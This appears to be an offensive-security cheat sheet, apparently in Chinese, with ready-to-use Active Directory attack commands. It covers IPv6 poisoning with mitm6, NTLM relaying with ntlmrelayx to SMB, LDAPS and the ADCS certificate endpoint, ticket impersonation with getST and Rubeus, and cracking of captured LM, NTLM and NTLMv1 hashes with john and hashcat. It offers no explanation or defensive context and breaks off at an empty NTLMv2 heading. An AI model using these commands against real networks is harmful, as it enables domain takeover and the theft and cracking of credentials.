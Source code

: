 

### 2.mitm6 -i eth0 -d <domain>

~~~ABAP
ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug

ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug

ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access

getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
~~~



### 3.adcs

~~~apl
ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
~~~



## 拿到hash破解

#### 1.LM

~~~
john --format=lm hash.txt

hashcat -m 3000 -a 3 hash.txt
~~~



#### 2.NTLM

~~~~
john --format=nt hash.txt

hashcat -m 1000 -a 3 hash.txt
~~~~



#### 3.NTLMv1

~~~
john --format=netntlm hash.txt

hashcat -m 5500 -a 3 hash.txt
~~~

#### 4.NTLMv2
